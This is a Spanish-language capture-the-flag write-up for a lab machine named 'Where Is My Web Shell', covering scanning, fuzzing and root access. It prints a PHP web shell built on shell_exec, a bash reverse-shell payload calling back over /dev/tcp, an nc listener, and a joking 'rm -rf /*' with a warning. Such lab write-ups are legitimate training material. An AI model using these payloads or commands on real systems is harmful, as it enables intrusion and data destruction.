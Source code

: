 
---------
>Hoy haremos una máquina facilita para reforzar conceptos de web Shell

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell.png)**

>Así que sin mucho más, levantamos la máquina, descomprimiendo el “.zip” y ejecutando el script de automatización:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%201.png)

>Una vez en funcionamiento, verificamos la conexión con la misma, con un ping a la ip:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%202.png)
_(Con esto en pocas palabras; enviamos tramas ICMP “Internet Control Message Protocol” tipo (Echo Request) a la ip victima, esta misma, al estar en funcionamiento, verifica las cabeceras del paquete para determinar que es para ella, y responde con un (Echo Reply).)_

1. _Podemos ver el orden de estas tramas ICMP en el apartado “icmp_seq=”,_
2. _Con el valor de “ttl=” podemos ver el número máximo de saltos que puede dar un paquete antes de descartarse(Por lo general funciona para determinar el sistema operativo víctima)._
3. _Con el valor “time=” podemos ver el tiempo entre el “Echo Request” y el “Echo Reply”)_

>Ya que verificamos la conexión, vamos a por el primer escaneo con nmap, para identificar los puertos abiertos de la máquina, y lo que corre en cada uno de ellos:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%203.png)
1. _-- min-rate 5000 (quiero tramitar mínimo 5000 paquetes por segundo) esto para que el escaneo vaya con bastante agilidad._
2. _-n (no deseo que nmap haga una resolución DNS automática)
3. _-p- (quiero escanear los 65535 puertos del sistema, no los 1000 más comunes, como normalmente hace nmap)._
4. _-Pn (Omite el descubrimiento de Host)_
5. _-sVC (Este concatena el parámetro -sV que realiza un reconocimiento de versiones de servicios, y el parámetro -sC que aplica unos cuantos scripts de reconocimiento propios de nmap_

>Vemos solamente un puerto abierto, con una versión medio actual de Apache. 
>Terminamos con el reconocimiento haciendo una pequeña enumeración a las tecnologías que corren en el servidor web con “whatweb”. Aunque no vemos mucho, podemos ver en el título que se trata de una academia de Inglés:

**![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%204.png)**

>Al inspeccionar la web no encontramos mucho:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%205.png)

>Revisando en código fuente de la pagina vemos un mensaje:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%206.png)
>Probablemente eso nos ayudara mas tarde, por ahora al no ver nada mas, pasamos a hacer un poco de enumeración de directorios y archivos en la web
>Hay muchas herramientas para enumerar directorios; [Dirb]([https://www.kali.org/tools/dirb/](https://www.kali.org/tools/dirb/) ), [Gobuster]([https://github.com/OJ/gobuster](https://github.com/OJ/gobuster) ), [Wfuzz]([https://www.kali.org/tools/wfuzz/](https://www.kali.org/tools/wfuzz/) ), Pero la que yo considero más eficiente es [ffuf]([https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf) ), así que para usarla:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%207.png)
1. _-c Para que se vea bonito con colorcitos_ ╰(*°▽°*)╯
2. _-w Para especificar el diccionario que se probará en la url (uso un diccionario de [Seclists](https://github.com/danielmiessler/SecLists) _)_
3. _-t para indicarle la cantidad de hilos (tareas múltiples) que deseo para la tarea a realizar, en este caso 200_
4. _-u indicamos la url a atacar, con la palabra interna FUZZ le indicamos a la herramienta la parte de la url que debe ser cambiada por las palabras del el diccionario._
5. _-e indicamos diferentes terminaciones que deseamos agregar a cada iteración en el diccionario, mientras que las comillas vacías hacen referencia a probar la palabra sin ninguna terminación (ej: -e .txt,.php,”” Probará en la web: palabra.txt, palabra .php y palabra)_

>Encontramos dos archivos interesantes:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%208.png)

>El segundo archivo nos dice esto:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%209.png)

>Si la web tiene una webshell, esta misma necesitaría de un parámetro especifico para funcionar correctamente. Tal vez por ello "ffuf" encontró el archivo “shell.php” pero nos da un código de estado 500 "Internal Server Error". Es decir, el archivo existe, pero no podemos acceder correctamente a él.

>La web shell funciona de esta manera:

```php
<?php
echo "<pre>" . shell_exec($_REQUEST["parametro__cualquiera"]) . "</pre>";
?>
```
_En php $_REQUEST recoge información de un "parámetro_cualquiera", y la función "shell_exec" ejecuta lo proporcionado directamente en el sistema. Es decir, en teoría, si encontramos el parámetro y le pasamos un valor “whoami”, $_REQUEST recogerá ese dato, y "shell_exec" lo ejecutara en el sistema, para que finalmente (como todo está dentro de un “echo”) mostrarse en pantalla la respuesta www-data

>Así que, para llegar a nuestro posible parámetro, vamos a cambiar el funcionamiento del fuzzing que hicimos antes:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2010.png)
_La estructura usual en la que un archivo ".php" recibe un parámetro desde la URL es:
```
http://URL/archivo.php?parámetro=valor_del_parametro”
```
Así que la parte que debemos fuzzear cambia. También, agregamos la flag "-fc 500" para ocultar los resultados que nos devuelvan un código de estado “internal server error” (500).

>Encontramos uno:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2011.png)

>El parámetro es “parameter” :3, probémoslo en la web:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2012.png)

>Tenemos un RCE (remote code execution), podemos ejecutar comandos en la web. Sin perder tiempo, vamos a obtener una reverse Shell. 
>Para obtener un payload de webshell te recomiendo la pagina [https://www.revshells.com/](https://www.revshells.com/). Usaremos el siguiente payload:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2013.png)

>Primero, debemos disponer nuestra máquina para recibir una Shell desde otro equipo, para esto, nos ponemos en escucha por el puerto 1234 con “nc”:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2014.png)
1. nc Es un binario multipropósito, sirve para ejecutar shells, transferir archivos, enviar y recibir datos, etc, etc…
2. -n Igual que con nmap, este parámetro nos quita la resolución automática de nombres de host (para acelerar el proceso)
3. -l Con este parámetro entramos en un modo de escucha de conexiones
4. -v El modo verbose lo usamos para ver más detalles sobre la escucha e información de la conexión
5. -p con este parámetro indicamos el puerto que estará en escucha, en este caso el 1234

>Ya que nuestra máquina está escuchando, podemos inyectar el payload, aunque un poco diferente para que funcione correctamente desde la URL:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2015.png)
_//El %26 es una codificación en URL de “&” para que no hayan problemas//_
_Vamos a intentar entenderlo al máximo este comando:_
1. _bash -c Ejecuta lo siguiente dentro de las comillas como una subshell, en pocas palabras, ejecuta el comando entre comillas como si fuera un script de bash._
2. _bash -i Lanza una bash en modo interactivo (para tener una shell medianamente funcional)_
3. _>%26 /dev/tcp/172.17.0.1/1234 0>%261 Es una manera PROPIA de bash para abrir una conexión TCP hacia una ip y un puerto, con la primera parte >%26 /dev/tcp/ip/puerto dirigimos el stdout (respuestas de la shell) de la maquina victima a nuestra ip, y con la segunda parte 0>%261 indicamos que el stdin(comandos que insertamos) de nuestra máquina irá a la ip victima para ser interpretado. En pocas palabras, abrimos una comunicación bidireccional entre nuestra ip y la ip victima, redireccionando nuestra entrada estándar (stdin) y la salida estándar de la víctima (stdout)._

>Con todo ello, ya entramos al sistema :3:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2016.png)

>Tratamos un poco la Shell para que sea un poco más funcional:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2017.png)
_Aquí, le estamos diciendo a la Shell que deseamos que la variable de entorno TERM(responsable de especificar el tipo de terminal usado), sea igual a Xterm._
_Sí TERM no se establece o está mal establecido en la máquina, cosas como clear, nano, vim, less, no funcionan correctamente._

>Revisamos según la pista que nos dejaron en el código fuente de la web el directorio /tmp:

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2018.png)

>Nos encontramos un archivo oculto (para listar archivos que están ocultos de manera eficiente en un directorio en especial, puedes usar el comando ls con las flags -l -a -h)

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2019.png)

>Ya con la contraseña de root en texto claro, tenemos la máquina :3

![Where Is My Web Shell](Attachments/Where%20Is%20My%20Web%20Shell%2020.png)

O.O   //El comando "rm -rf /*" ejecutado como administrador borra todos los archivos del sistema, es un pequeño guiño al ganar acceso como root a una máquina, NO LO EJECUTES//   O.O
